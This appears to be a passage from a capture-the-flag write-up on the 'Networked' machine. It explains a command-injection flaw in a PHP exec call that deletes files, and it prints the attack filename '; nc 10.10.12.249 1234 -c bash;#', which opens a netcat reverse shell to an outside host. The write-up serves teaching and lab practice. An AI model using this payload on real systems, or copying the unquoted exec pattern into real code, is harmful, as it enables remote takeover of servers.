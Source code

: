 ![Img](/assets/posts_details/Networked/images/check-attack.png)

Now the thing which will help me get user `guly` is this vulnerable line of code:

```php
<?php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
?>
```

THe vulnerability lies on the fact that `$value` is the name of the file, which should be inserted on the command within quotes. This is because one could have a file named `; nc 10.10.12.249 1234 -c bash;#` that, when inserted on the command, would result in:

```php
<?php
exec("nohup /bin/rm -f $path; nc 10.10.12.249 1234 -c bash;# > /dev/null 2>&1 &");
?>
```
